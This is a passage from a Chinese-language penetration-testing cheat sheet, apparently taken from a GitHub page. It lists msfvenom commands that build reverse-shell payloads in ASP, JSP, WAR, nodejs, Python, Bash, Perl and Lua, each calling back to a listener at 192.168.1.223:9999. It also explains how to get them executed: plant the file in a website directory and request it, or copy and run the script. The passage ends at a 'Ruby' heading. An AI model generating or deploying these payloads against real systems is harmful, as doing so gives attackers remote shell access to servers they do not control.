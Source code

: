 ```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.223 LPORT=9999 -f asp > shell.asp
```

###### JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.223 LPORT=9999 -f raw > shell.jsp
```

###### WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.223 LPORT=9999 -f war > shell.war
```

###### nodejs

```
msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.1.223 LPORT=9999 -f raw -o shell.js
```

**使用方法**: 将生成的脚本放置到网站目录下,然后浏览器访问该文件即可执行该文件!

**注意:**这样获得的shell并不稳定,经常会容易中断!

##### (4) 各种语言的脚本

**这样生成的payload使用方法:**

​		将脚本里面的内容全部复制出来然后执行!

###### Python

```
第一种Linux下使用python反弹一个cmd形式的shell:
msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.223 LPORT=9999 -f raw > shell.py

第二种反弹一个meterpreter形式的shell(windows|Linux都可以):
msfvenom -a python -p python/meterpreter/reverse_tcp LHOST=192.168.1.223 LPORT=9999 -f raw > shell.py
```

###### Bash

```
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.223 LPORT=9999 -f raw > shell.sh
```

###### Perl

```
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.1.223 LPORT=9999 -f raw > shell.pl
```

###### Lua

```
msfvenom -p cmd/unix/reverse_lua LHOST=192.168.1.223 LPORT=9999 -f raw -o shell.lua
```

###### Ruby
